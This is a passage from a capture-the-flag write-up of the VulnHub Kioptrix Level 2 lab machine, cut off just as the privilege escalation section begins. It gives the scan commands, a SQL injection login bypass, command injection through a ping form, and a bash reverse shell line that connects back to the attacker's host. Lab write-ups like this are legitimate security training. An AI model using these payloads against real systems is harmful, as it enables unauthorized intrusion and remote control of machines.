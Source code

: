 ```yaml
---
layout: post
title: Kioptrix Level 2
---
```

[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Find IP of box
Our IP: x.x.x.49

`nmap -T5 <LHOST>/24`

Kioptrix is running on: x.x.x.4  

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.4`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL2/NMap1.JPG)

We have 6 ports open: 22 (ssh), 80 (http), 111 (rpcbind), 443 (ssl/https), 631 (ipp), 3306 (mysql)

I'll start with the HTTP port in which we are greeted with an Administration login page.

## HTTP - Port 80
### Gobuster

`gobuster dir -u http://x.x.x.4 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

Nothing useful

Same with Dirbuster for recurisve search

### SQL Injection

' or '1'='1

Enter in both Username and Password and we get a login

We see an option to ping a machine on the network which suggests we may have RCE

### RCE Check

I entered the machine IP into the box and it opens a new tab with the ping results. I'm assuming that the command it's running is simply: ping <IP> where the IP is the user entered text.
 
 We know the machine is running on linux so I appened pipe id ( | id) which proves successful.
 
 ![Ping RCE check](/images/KioptrixL2/PingID.JPG)
 
 ### NetCat
 
 Start a netcat listener on local machine
 
 `nc -lvnp 4444`
 
 ### RCE Reverse Shell
 
 Grab a reverse shell from (Pentest Monkey's Cheat Sheet)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] 
 
 `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
 
 I entered `x.x.x.4 | bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1` into the website and we get reverse shell on our local machine as user apache
 
 Spawn a TTY shell using python -c 'import pty; pty.spawn("/bin/sh")' from (Netsec TTY Cheat Sheet)[https://netsec.ws/?p=337]
 
 ### Privilege Escalation
 
I started 
